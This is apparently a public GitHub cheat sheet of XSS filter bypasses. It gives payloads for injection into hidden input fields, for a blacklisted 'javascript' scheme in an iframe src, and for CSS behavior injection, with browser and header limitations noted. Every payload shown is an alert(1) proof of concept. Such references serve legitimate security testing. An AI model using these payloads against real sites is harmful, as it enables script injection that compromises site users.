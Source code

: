 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---


# Problems and Solutions


## Hidden Input fields


📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```


**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

💡

```
'"/onclick='alert(1)'/accesskey='X'
```


**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---



## Reflection in the src attribute

📝 **Problem**

The word 'javascript' is blacklisted, so javascript:alert(1); will be filtered.  


**Note:**

The reflection happens <iframe src="[here]">, and quotes are properly encoded.



💡 **Solution(s):**

By using a tab in the middle of the word, we can bypass the blacklist.

```Javascr%09ipt:alert(1)```



---


## Multiple reflections in a script context


📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \


**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**
There is no solution yet. But feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help :)

---



## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```


**Note:**

Double quotes are properly encoded


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

Contents xss.htc:
```
<script>alert(1)</script>
```


**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

Contents xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```


**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---



# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
